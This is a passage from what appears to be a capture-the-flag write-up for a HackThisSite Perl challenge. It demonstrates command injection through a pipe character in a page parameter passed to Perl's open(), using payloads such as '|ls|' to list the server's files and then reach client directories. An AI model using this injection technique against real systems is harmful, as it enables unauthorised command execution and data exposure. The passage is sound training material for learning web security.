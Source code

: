With this information now on hand, we are ready to exploit this function. Since we know that the code looks like the following: `open(file, "pages/$userinput")`, if we were to have `my $userinput= |echo vulnerable|`, then the final version that is to be interpreted looks like the following: `open(file, "pages/|echo vulnerable|")`. This is interpreted as followed:
1. PEARL locates a pipe character and thus assumes that the input are shell commands
2. `pages/` is not identified as a proper commmand by the shell
3. `echo vulnerable` is run by the shell and piped to the `file` filehandler

Now I will do a quick test by trying the following path `page.pl?page=%7Cecho%20test%7C` which is equivalent to `page.pl?page=|echo test|`. This gives us the following output on the webpage:

```
Page cannot m{[\0.<>\/&\s]}
```

Whilst this is not the expected output, it suggests that the page cannot contain any spaces as it doesn't match the regex shown in the error message. It is possible that the creators of hackthissite ensured that only a few commands are possible - as they have done in previous challenges - to ensure no one can do any damage to their proper website. Thus, I must figure out which command will be of use to me at this moment. Ideally, I would want to identify some sort of file structure so that I can start looking for where the client's files could be located, thus I will try the following path instead: `page.pl?page=%7Cls%7C` - equivalent to `page.pl?page=|ls|`. The following is the output given by the webpage: 

```
admin bs.dbase client_http_docs frontpage.gif index.html index.pl letter.gif logo.gif ms.gif mysql.gif order.pl page.pl pages perl.gif php.gif server.gif sqlite.png suspended.html tux.gif webmail.php
```

The following list is the same as above but just more visually separated:
- admin/
- client_http_docs/
- pages/
- bs.dbase
- frontpage.gif
- index.html
- index.pl
- letter.gif
- logo.gif
- ms.gif
- mysql.gif
- order.pl
- page.pl
- perl.gif
- php.gif
- server.gif
- sqlite.png
- suspended.html
- tux.gif
- webmail.php

Now that we have a view of the directory of this website, we can see that client documents are most likely available in `/client_http_docs/`. Accessing this path, in turn, gives us a directory listing for 4 of their clients, including our own. Accessing the `/client_http_docs/space46/` path results in the following message:
